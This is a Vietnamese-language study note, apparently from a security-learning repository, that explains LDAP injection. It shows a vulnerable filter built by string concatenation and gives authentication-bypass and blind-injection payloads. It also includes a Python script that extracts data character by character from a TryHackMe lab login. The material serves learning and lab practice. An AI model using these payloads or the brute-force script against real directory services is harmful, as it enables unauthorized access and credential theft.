


## LDAP Injection 
- LDAP Injection (Lightweight Directory Access Protocol Injection) là một lỗ hổng bảo mật xảy ra khi một ứng dụng web không kiểm soát chặt chẽ dữ liệu đầu vào của người dùng trước khi đưa vào truy vấn LDAP. Điều này cho phép kẻ tấn công thao túng truy vấn LDAP để truy xuất, sửa đổi hoặc xóa dữ liệu trong thư mục LDAP.
- Cấu trúc của LDAP:




## Payload

- LDAP thường được sử dụng để quản lý thông tin người dùng, chẳng hạn như hệ thống xác thực (authentication) và phân quyền (authorization). Truy vấn LDAP có thể giống như sau:
    ```bash
    (&(uid=admin)(password=123456))
    ```

    - & đảm bảo rằng cả hai điều kiện đều phải đúng.
    - uid=admin là kiểm tra tên người dùng.
    - password=123456 là kiểm tra mật khẩu
- Giả sử một ứng dụng web có mã như sau để xác thực người dùng:
    ```bash
    String filter = "(&(uid=" + username + ")(password=" + password + "))";
    ```
    - Nếu người dùng nhập:
    ```bash
    Username: *)(&)
    Password: ...
    ```
    - Truy vấn LDAP trở thành:
    ```bash
    (& (uid=*) (&) (password=anything))
    ```
    → `uid=*` nghĩa là lấy tất cả người dùng.
    → `(&)` là một điều kiện hợp lệ.

- Điều này có thể dẫn đến việc ứng dụng cấp quyền truy cập trái phép vì điều kiện luôn đúng.

## Exploit

- Bypass LDAP injection 
    ```text
    Normal 
    1. username=*passwd=*
    2. username=F*passwd=*
    Blind
    3. username=*)(|(&passwd=pwd)
    ```

- Exploit code bypass LDAP
    ```python
    import requests
    from bs4 import BeautifulSoup
    import string
    import time

    # Base URL
    url = 'http://10.10.167.23/blind.php'

    # Define the character set
    char_set = string.ascii_lowercase + string.ascii_uppercase + string.digits + "._!@#$%^&*()"

    # Initialize variables
    successful_response_found = True
    successful_chars = ''

    headers = {
        'Content-Type': 'application/x-www-form-urlencoded'
    }

    while successful_response_found:
        successful_response_found = False

        for char in char_set:
            #print(f"Trying password character: {char}")

            # Adjust data to target the password field
            data = {'username': f'{successful_chars}{char}*)(|(&','password': 'pwd)'}

            # Send POST request with headers
            response = requests.post(url, data=data, headers=headers)

            # Parse HTML content
            soup = BeautifulSoup(response.content, 'html.parser')

            # Adjust success criteria as needed
            paragraphs = soup.find_all('p', style='color: green;')

            if paragraphs:
                successful_response_found = True
                successful_chars += char
                print(f"Successful character found: {char}")
                break

            if not successful_response_found:
                print("No successful character found in this iteration.")

            print(f"Final successful payload: {successful_chars}")
    ```
- Payload thành công

- Login và lấy flag


## Tham khảo thêm tại
- [Tryhackme](https://tryhackme.com/room/ldapinjection)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/README.md)